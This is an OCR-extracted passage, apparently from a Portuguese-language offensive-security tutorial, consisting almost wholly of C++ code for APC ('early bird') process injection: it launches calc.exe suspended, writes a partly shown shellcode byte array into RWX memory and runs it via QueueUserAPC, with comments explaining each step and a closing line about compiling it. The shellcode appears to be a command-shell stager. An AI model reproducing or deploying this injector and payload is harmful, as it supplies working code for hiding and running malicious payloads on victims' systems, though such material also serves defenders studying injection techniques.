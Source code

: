 ```cpp
"\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44\x24\x54\x01\x01"
"\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6\x56\x50\x41"
"\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff\xc8\x4d"
"\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5\x48"
"\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff"
"\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5"
"\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb"
"\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";

unsigned int payload_len = sizeof(payload);



int main(int argc, char* argv[]) {
    STARTUPINFO si; // criando estrutura STARTUPINFOA
    PROCESS_INFORMATION pi; // criando estrutura PROCESS_INFORMATION
    HANDLE procH; // process handle
    LPVOID remoteB; // remote buffer
    HANDLE threadH; // thread handle

    ZeroMemory(&si, sizeof(si)); // zerando estrutura STATUPINFOA
    ZeroMemory(&pi, sizeof(pi)); // zerando estrutura PROCESS_INFORMATION
    si.cb = sizeof(si); // inicializando STATUPINFOA

    // criando processo
    CreateProcessA("C:\\Windows\\System32\\calc.exe", NULL, NULL, NULL, false, CREATE_SUSPENDED, NULL, NULL, &si, &pi);
    // alterando estado para alertable wait
    WaitForSingleObject(pi.hProcess, 1000);
    procH = pi.hProcess;
    threadH = pi.hThread;

    // aloca o buffer de memoria no processo
    remoteB = VirtualAllocEx(procH, NULL, payload_len, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

    // copia o payload entre os processos
    WriteProcessMemory(procH, remoteB, payload, payload_len, NULL);

    // injetando na thread suspensa
    PTHREAD_START_ROUTINE apc = (PTHREAD_START_ROUTINE)remoteB;
    QueueUserAPC((PAPCFUNC)apc, threadH, NULL);

    // resumindo a thread suspensa
    ResumeThread(threadH);

    return 0;
}
```

Podemos compilar o programa:
